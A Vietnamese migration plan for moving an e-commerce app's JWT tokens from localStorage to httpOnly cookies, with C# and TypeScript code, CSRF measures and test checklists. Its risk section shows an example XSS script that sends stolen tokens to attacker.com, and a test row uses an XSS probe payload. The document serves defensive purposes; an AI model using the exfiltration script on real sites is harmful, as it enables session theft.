






# httpOnly Cookie Authentication - Kế Hoạch Migration

## 1. Đánh Giá Hiện Trạng

### 1.1 Tổng Quan Kiến Trúc Hiện Tại



### 1.2 File Hiện Tại Cần Migration

| Component | File Path | Vấn Đề |
|-----------|-----------|--------|
| Dashboard Auth | [auth-service.ts](file:///d:/2026/projects/ecommerce/apps/frontend/ecommerce-dashboard/services/auth-service.ts) | localStorage + js-cookie |
| Dashboard Axios | [axios.ts](file:///d:/2026/projects/ecommerce/apps/frontend/ecommerce-dashboard/lib/axios.ts) | Manual token injection |
| Client Auth | [auth-service.ts](file:///d:/2026/projects/ecommerce/apps/frontend/ecommerce-client/services/auth-service.ts) | localStorage + js-cookie |
| Backend Auth | [AuthController.cs](file:///d:/2026/projects/ecommerce/apps/backend/Ecommerce/Ecommerce.WebAPI/Controllers/AuthController.cs) | Returns tokens in response body |
| Backend JWT | [AddAuthenticationExtensions.cs](file:///d:/2026/projects/ecommerce/apps/backend/Ecommerce/Ecommerce.Infrastructure/Extensions/AddAuthenticationExtensions.cs) | No cookie validation |
| Backend CORS | [Program.cs](file:///d:/2026/projects/ecommerce/apps/backend/Ecommerce/Ecommerce.WebAPI/Program.cs) | Cần thêm credentials |

### 1.3 Mã Nguồn Có Vấn Đề

**Frontend Dashboard - auth-service.ts (Lines 44-51):**
```typescript
// ⚠️ VULNERABLE: Tokens stored in localStorage
private storeToken(accessToken: string): void {
    localStorage.setItem("auth_token", accessToken)  // XSS accessible
}

private storeRefreshToken(refreshToken: string): void {
    localStorage.setItem("refresh_token", refreshToken)  // XSS accessible
}
```

**Frontend Dashboard - axios.ts (Lines 76-77):**
```typescript
// ⚠️ VULNERABLE: Tokens read from localStorage
accessToken: localStorage.getItem("auth_token"),
refreshToken: localStorage.getItem("refresh_token"),
```

---

## 2. Phân Tích Rủi Ro Bảo Mật

### 2.1 Rủi Ro XSS (Cross-Site Scripting)

> [!CAUTION]
> **Mức Độ Nghiêm Trọng: CAO**
> 
> Attacker có thể đánh cắp token thông qua XSS injection và truy cập toàn bộ dashboard admin.

**Kịch Bản Tấn Công:**
```javascript
// Malicious script injected via XSS
const accessToken = localStorage.getItem("auth_token");
const refreshToken = localStorage.getItem("refresh_token");

// Send to attacker's server
fetch("https://attacker.com/steal", {
    method: "POST",
    body: JSON.stringify({ accessToken, refreshToken })
});
```

**Hậu Quả:**
- Attacker có full access token → truy cập API với quyền admin
- Attacker có refresh token → duy trì access vô thời hạn
- Không thể revoke → user phải đổi password

### 2.2 Ảnh Hưởng Đến Dashboard E-Commerce

| Target | Impact Level | Mô Tả |
|--------|--------------|-------|
| Admin Account | 🔴 Critical | Full access: orders, users, products, payments |
| Staff Account | 🟠 High | Access theo permissions: orders, inventory |
| Customer Data | 🔴 Critical | PII exposure: tên, email, địa chỉ, lịch sử mua |
| Financial Data | 🔴 Critical | Payment records, doanh thu, promo codes |

### 2.3 So Sánh: localStorage vs httpOnly Cookie

| Tiêu Chí | localStorage | httpOnly Cookie |
|----------|-------------|-----------------|
| XSS Access | ⛔ JavaScript accessible | ✅ Not accessible |
| CSRF Risk | ✅ Not vulnerable | ⚠️ Cần SameSite + Token |
| Persistence | ✅ Manual control | ✅ Expiry control |
| Cross-tab Sync | ✅ Built-in | ✅ Built-in |
| SSR Compatible | ⛔ Client-only | ✅ Server accessible |

---

## 3. Thiết Kế Giải Pháp httpOnly Cookie-Based Auth

### 3.1 Kiến Trúc Mới



### 3.2 Backend Changes

#### 3.2.1 Cookie Configuration Options

```csharp
// File: Ecommerce.WebAPI/Extensions/CookieAuthExtensions.cs [NEW]

public static class CookieAuthExtensions
{
    public static void SetAuthCookies(this HttpResponse response, string accessToken, string refreshToken)
    {
        var accessTokenOptions = new CookieOptions
        {
            HttpOnly = true,          // ✅ Not accessible via JavaScript
            Secure = true,            // ✅ HTTPS only (disable for local dev)
            SameSite = SameSiteMode.Strict,  // ✅ CSRF protection
            Path = "/api",            // ✅ Only sent to API routes
            Expires = DateTimeOffset.UtcNow.AddMinutes(15)  // Access token: 15 mins
        };

        var refreshTokenOptions = new CookieOptions
        {
            HttpOnly = true,
            Secure = true,
            SameSite = SameSiteMode.Strict,
            Path = "/api/auth",       // ✅ Only sent to auth endpoints
            Expires = DateTimeOffset.UtcNow.AddDays(7)  // Refresh token: 7 days
        };

        response.Cookies.Append("access_token", accessToken, accessTokenOptions);
        response.Cookies.Append("refresh_token", refreshToken, refreshTokenOptions);
    }

    public static void ClearAuthCookies(this HttpResponse response)
    {
        var clearOptions = new CookieOptions
        {
            HttpOnly = true,
            Secure = true,
            SameSite = SameSiteMode.Strict,
            Expires = DateTimeOffset.UtcNow.AddDays(-1)  // Immediate expiry
        };

        response.Cookies.Delete("access_token", clearOptions);
        response.Cookies.Delete("refresh_token", clearOptions);
    }
}
```

#### 3.2.2 Modified AuthController

```csharp
// File: Ecommerce.WebAPI/Controllers/AuthController.cs [MODIFY]

[HttpPost("login")]
public async Task<IActionResult> Login(LoginUserCommand command)
{
    var result = await _mediator.Send(command);
    
    if (result.IsSuccess && result.Data != null)
    {
        // Set tokens in httpOnly cookies
        Response.SetAuthCookies(result.Data.AccessToken, result.Data.RefreshToken);
        
        // Return user info WITHOUT tokens
        return Ok(new
        {
            success = true,
            data = new
            {
                result.Data.UserId,
                result.Data.Email,
                result.Data.FirstName,
                result.Data.LastName,
                result.Data.Roles,
                result.Data.Permissions
                // ❌ NO accessToken or refreshToken in response body
            }
        });
    }
    
    return result.ToActionResult();
}

[HttpPost("refresh-token")]
public async Task<IActionResult> RefreshToken()
{
    // Read tokens from cookies instead of request body
    var accessToken = Request.Cookies["access_token"];
    var refreshToken = Request.Cookies["refresh_token"];
    
    if (string.IsNullOrEmpty(refreshToken))
    {
        return Unauthorized(new { success = false, message = "Refresh token not found" });
    }
    
    var command = new RefreshTokenCommand
    {
        AccessToken = accessToken ?? "",
        RefreshToken = refreshToken
    };
    
    var result = await _mediator.Send(command);
    
    if (result.IsSuccess && result.Data != null)
    {
        // Set new tokens in cookies
        Response.SetAuthCookies(result.Data.AccessToken, result.Data.RefreshToken);
        return Ok(new { success = true });
    }
    
    // Clear invalid cookies
    Response.ClearAuthCookies();
    return result.ToActionResult();
}

[HttpPost("logout")]
[Authorize]
public async Task<IActionResult> Logout()
{
    var refreshToken = Request.Cookies["refresh_token"];
    
    if (!string.IsNullOrEmpty(refreshToken))
    {
        await _mediator.Send(new RevokeTokenCommand { RefreshToken = refreshToken });
    }
    
    // Clear cookies
    Response.ClearAuthCookies();
    
    return Ok(new { success = true, message = "Logged out successfully" });
}
```

#### 3.2.3 JWT Validation from Cookie

```csharp
// File: Ecommerce.Infrastructure/Extensions/AddAuthenticationExtensions.cs [MODIFY]

options.Events = new JwtBearerEvents
{
    OnMessageReceived = context =>
    {
        // Priority 1: Check for token in cookie
        var cookieToken = context.Request.Cookies["access_token"];
        if (!string.IsNullOrEmpty(cookieToken))
        {
            context.Token = cookieToken;
            return Task.CompletedTask;
        }
        
        // Priority 2: Check for token in query string (SignalR)
        var queryToken = context.Request.Query["access_token"];
        var path = context.HttpContext.Request.Path;
        if (!string.IsNullOrEmpty(queryToken) && path.StartsWithSegments("/api/notification-hub"))
        {
            context.Token = queryToken;
        }
        
        // Priority 3: Authorization header (backward compatibility / mobile apps)
        // Already handled by default
        
        return Task.CompletedTask;
    },
    // ... existing OnAuthenticationFailed handler
};
```

#### 3.2.4 CORS Configuration

```csharp
// File: Ecommerce.WebAPI/Program.cs [MODIFY]

builder.Services.AddCors(options =>
{
    var allowedOrigins = builder.Configuration.GetSection("Cors:AllowedOrigins").Get<string[]>();
    
    options.AddPolicy("AllowAll", policy =>
    {
        if (allowedOrigins != null && allowedOrigins.Length > 0)
        {
            policy.WithOrigins(allowedOrigins)
                  .AllowAnyMethod()
                  .AllowAnyHeader()
                  .AllowCredentials()  // ✅ Required for cookies
                  .WithExposedHeaders("Set-Cookie");  // ✅ Allow cookie headers
        }
    });
});
```

> [!IMPORTANT]
> **CORS với Credentials**
> - Khi dùng `AllowCredentials()`, KHÔNG được dùng `AllowAnyOrigin()`
> - Phải chỉ định cụ thể origins trong `WithOrigins()`
> - Frontend và Backend phải cùng domain hoặc cấu hình cross-domain đúng

---

### 3.3 Frontend Changes

#### 3.3.1 Updated axios.ts

```typescript
// File: lib/axios.ts [FULL REPLACEMENT]

import axios from "axios"
import { logger } from "@/lib/logger"

const api = axios.create({
    baseURL: process.env.NEXT_PUBLIC_API_URL || "http://localhost:5000/api",
    headers: {
        "Content-Type": "application/json",
    },
    withCredentials: true,  // ✅ CRITICAL: Enable sending cookies with all requests
})

// Token Refresh Queue - prevents race condition
let isRefreshing = false;
let refreshSubscribers: ((success: boolean) => void)[] = [];

function subscribeTokenRefresh(callback: (success: boolean) => void) {
    refreshSubscribers.push(callback);
}

function onRefreshComplete(success: boolean) {
    refreshSubscribers.forEach(callback => callback(success));
    refreshSubscribers = [];
}

async function refreshTokenSilently(): Promise<boolean> {
    try {
        // Cookie is automatically sent with request
        await axios.post(
            `${process.env.NEXT_PUBLIC_API_URL || "http://localhost:5000/api"}/auth/refresh-token`,
            {},
            { withCredentials: true }
        );
        logger.debug('Token refresh successful');
        return true;
    } catch (error) {
        logger.error('Token refresh failed:', error);
        return false;
    }
}

// Request interceptor - NO manual token injection needed
api.interceptors.request.use(
    (config) => {
        // Cookies are automatically sent due to withCredentials: true
        // No need to manually set Authorization header
        return config;
    },
    (error) => Promise.reject(error)
)

// Response interceptor for 401 handling
api.interceptors.response.use(
    (response) => response,
    async (error) => {
        const originalRequest = error.config;

        if (error.response?.status === 401 && !originalRequest._retry) {
            if (isRefreshing) {
                // Wait for the ongoing refresh
                return new Promise((resolve, reject) => {
                    subscribeTokenRefresh((success) => {
                        if (success) {
                            resolve(api(originalRequest));
                        } else {
                            reject(error);
                        }
                    });
                });
            }

            originalRequest._retry = true;
            isRefreshing = true;

            const refreshSuccess = await refreshTokenSilently();
            isRefreshing = false;
            onRefreshComplete(refreshSuccess);

            if (refreshSuccess) {
                return api(originalRequest);
            }

            // Refresh failed - redirect to login
            if (typeof window !== "undefined") {
                window.location.href = "/login";
            }
        }

        return Promise.reject(error);
    }
)

export default api
```

#### 3.3.2 Updated auth-service.ts

```typescript
// File: services/auth-service.ts [FULL REPLACEMENT]

import api from "@/lib/axios"
import { User } from "@/types/user"
import { logger } from "@/lib/logger"

export interface AuthResponse {
    success: boolean
    data: {
        userId: string
        email: string
        firstName: string
        lastName: string
        roles: string[]
        permissions: string[]
        customerLevel: number
        // ❌ NO accessToken or refreshToken
    }
}

export interface LoginRequest {
    email: string
    password: string
}

export interface RegisterRequest {
    firstName: string
    lastName: string
    email: string
    phoneNumber?: string
    password: string
    confirmPassword?: string
}

class AuthService {
    // ✅ Store user data ONLY (no tokens)
    private storeUser(user: User): void {
        if (typeof window !== "undefined") {
            localStorage.setItem("user", JSON.stringify(user))
        }
    }

    public getStoredUser(): User | null {
        if (typeof window === "undefined") return null
        const userData = localStorage.getItem("user")
        return userData ? JSON.parse(userData) : null
    }

    private clearUser(): void {
        if (typeof window !== "undefined") {
            localStorage.removeItem("user")
        }
    }

    // Login - cookies are set by backend
    public async login(email: string, password: string): Promise<AuthResponse> {
        const { data } = await api.post<AuthResponse>("/auth/login", {
            email,
            password
        } as LoginRequest)

        if (data.success && data.data) {
            // Only store user info, tokens are in httpOnly cookies
            const user: User = {
                id: data.data.userId,
                firstName: data.data.firstName,
                lastName: data.data.lastName,
                email: data.data.email,
                roles: data.data.roles,
                permissions: data.data.permissions,
                customerLevel: data.data.customerLevel
            }
            this.storeUser(user)
        }

        return data
    }

    // Register
    public async register(registerData: RegisterRequest): Promise<AuthResponse> {
        const { data } = await api.post<AuthResponse>("/auth/register", registerData)

        if (data.success && data.data) {
            const user: User = {
                id: data.data.userId,
                firstName: data.data.firstName,
                lastName: data.data.lastName,
                email: data.data.email,
                roles: data.data.roles,
                permissions: data.data.permissions,
                customerLevel: data.data.customerLevel
            }
            this.storeUser(user)
        }

        return data
    }

    // Logout - cookies are cleared by backend
    public async logout(): Promise<void> {
        try {
            await api.post("/auth/logout")
        } catch (error) {
            logger.error("Error during logout:", error)
        } finally {
            this.clearUser()
        }
    }

    // Get current authenticated user
    public async getCurrentUser(): Promise<User> {
        const { data } = await api.get("/auth/profile")

        if (!data.success || !data.data) {
            throw new Error("Invalid response from server")
        }

        const user: User = {
            id: data.data.id,
            firstName: data.data.firstName || "",
            lastName: data.data.lastName || "",
            email: data.data.email,
            roles: data.data.roles || [],
            permissions: data.data.permissions || [],
            customerLevel: data.data.customerLevel || 0,
            phone: data.data.phoneNumber || "",
            avatar: data.data.avatar || ""
        }

        this.storeUser(user)
        return user
    }

    // Check if user is authenticated
    // Note: We can only know for sure by calling an authenticated endpoint
    public isAuthenticated(): boolean {
        if (typeof window === "undefined") return false
        return this.getStoredUser() !== null
    }

    // Verify authentication by calling profile endpoint
    public async verifyAuthentication(): Promise<boolean> {
        try {
            await this.getCurrentUser()
            return true
        } catch {
            this.clearUser()
            return false
        }
    }
}

const authService = new AuthService()
export default authService
```

---

## 4. Luồng Xác Thực Chi Tiết

### 4.1 Login Flow



### 4.2 Access API Flow



### 4.3 Token Expired → Refresh Flow



### 4.4 Logout Flow



---

## 5. CSRF Protection

> [!WARNING]
> httpOnly cookies giúp chống XSS nhưng có thể bị tấn công CSRF. Cần thêm các biện pháp sau:

### 5.1 SameSite Cookie (Đã Implement)

```csharp
SameSite = SameSiteMode.Strict  // Cookie chỉ gửi với same-origin requests
```

**Giải thích:**
- `Strict`: Cookie không bao giờ gửi với cross-site requests
- `Lax`: Cookie gửi với navigation từ external site (GET only)
- `None`: Cookie luôn gửi (cần Secure: true)

### 5.2 CSRF Token (Optional Enhancement)

Nếu cần thêm bảo mật cho các action quan trọng:

```csharp
// Backend: Generate CSRF token
[HttpGet("csrf-token")]
public IActionResult GetCsrfToken()
{
    var token = Guid.NewGuid().ToString();
    Response.Cookies.Append("csrf_token", token, new CookieOptions
    {
        HttpOnly = false,  // JS cần đọc được
        Secure = true,
        SameSite = SameSiteMode.Strict
    });
    return Ok(new { csrfToken = token });
}

// Backend: Validate CSRF token middleware
public class CsrfValidationMiddleware
{
    public async Task InvokeAsync(HttpContext context, RequestDelegate next)
    {
        if (context.Request.Method == "POST" || 
            context.Request.Method == "PUT" || 
            context.Request.Method == "DELETE")
        {
            var cookieToken = context.Request.Cookies["csrf_token"];
            var headerToken = context.Request.Headers["X-CSRF-Token"].FirstOrDefault();
            
            if (string.IsNullOrEmpty(headerToken) || cookieToken != headerToken)
            {
                context.Response.StatusCode = 403;
                return;
            }
        }
        await next(context);
    }
}
```

```typescript
// Frontend: Send CSRF token in header
api.interceptors.request.use((config) => {
    // Get CSRF token from non-httpOnly cookie
    const csrfToken = document.cookie
        .split('; ')
        .find(row => row.startsWith('csrf_token='))
        ?.split('=')[1];
    
    if (csrfToken) {
        config.headers['X-CSRF-Token'] = csrfToken;
    }
    return config;
});
```

---

## 6. Testing & Verification Checklist

### 6.1 Functional Tests

| # | Test Case | Steps | Expected Result |
|---|-----------|-------|-----------------|
| 1 | Login thành công | POST /auth/login với đúng credentials | Cookie `access_token` và `refresh_token` được set, response không chứa token |
| 2 | Reload giữ session | Login → Reload trang → Call /auth/profile | Request thành công, user vẫn authenticated |
| 3 | Token expired auto-refresh | Đợi access token hết hạn → Call API | 401 → Auto refresh → API call thành công |
| 4 | Refresh token expired | Đợi cả 2 token hết hạn → Call API | Redirect về /login |
| 5 | Logout clears cookies | Click logout | Cookies bị xóa, localStorage cleared |

### 6.2 Security Tests

| # | Test Case | Steps | Expected Result |
|---|-----------|-------|-----------------|
| 6 | Cookie httpOnly | DevTools → Application → Cookies | Column "HttpOnly" = ✓ cho cả 2 token |
| 7 | Cookie không đọc được từ JS | Console: `document.cookie` | Không thấy `access_token` hoặc `refresh_token` |
| 8 | XSS cannot steal token | Inject `<script>alert(document.cookie)</script>` | Token không hiển thị |
| 9 | CSRF blocked by SameSite | Từ domain khác POST /api/... | Request không kèm cookie |
| 10 | Cross-domain blocked | Call API từ domain không có trong whitelist | CORS error |

### 6.3 DevTools Verification

**Kiểm tra trong Browser DevTools:**

```
1. Application → Cookies → [your domain]
   ├── access_token
   │   ├── HttpOnly: ✓
   │   ├── Secure: ✓ (hoặc để trống nếu localhost)
   │   ├── SameSite: Strict
   │   └── Path: /api
   └── refresh_token
       ├── HttpOnly: ✓
       ├── Secure: ✓
       ├── SameSite: Strict
       └── Path: /api/auth

2. Console → document.cookie
   Expected: "" hoặc chỉ có non-sensitive cookies
   NOT Expected: access_token=... hoặc refresh_token=...

3. Network → Any API call → Request Headers
   Expected: Cookie: access_token=xxx; refresh_token=xxx
```

---

## 7. Deployment Considerations

### 7.1 Environment Configuration

```json
// appsettings.Development.json
{
  "CookieSettings": {
    "Secure": false,  // Allow HTTP for localhost
    "SameSite": "Lax"  // Less restrictive for dev
  }
}

// appsettings.Production.json
{
  "CookieSettings": {
    "Secure": true,   // HTTPS only
    "SameSite": "Strict"
  }
}
```

### 7.2 Domain Considerations

| Scenario | Frontend | Backend | Configuration |
|----------|----------|---------|---------------|
| Same Domain | example.com | example.com/api | Default works |
| Subdomain | app.example.com | api.example.com | Set Domain=.example.com |
| Cross Domain | app.com | api.example.com | Cần SameSite=None + Secure |

### 7.3 Migration Steps

1. **Phase 1: Backend Ready**
   - Deploy backend với cookie support
   - Giữ backward compatibility (vẫn trả token trong body)
   - Test với Postman

2. **Phase 2: Frontend Migration**
   - Update axios config
   - Update auth-service
   - Remove localStorage token handling
   - Test thoroughly

3. **Phase 3: Cleanup**
   - Remove token from response body
   - Remove backward compatibility code
   - Update documentation

---

## 8. Tổng Kết

### 8.1 Thay Đổi Chính

| Component | Before | After |
|-----------|--------|-------|
| Token Storage | localStorage | httpOnly Cookie |
| Token Transmission | Authorization header | Cookie (auto) |
| Refresh Token | Request body | Cookie |
| CORS | AllowAnyOrigin | WithOrigins + AllowCredentials |
| XSS Risk | 🔴 High | 🟢 Mitigated |

### 8.2 Files Cần Thay Đổi

**Backend:**
- `Ecommerce.WebAPI/Extensions/CookieAuthExtensions.cs` [NEW]
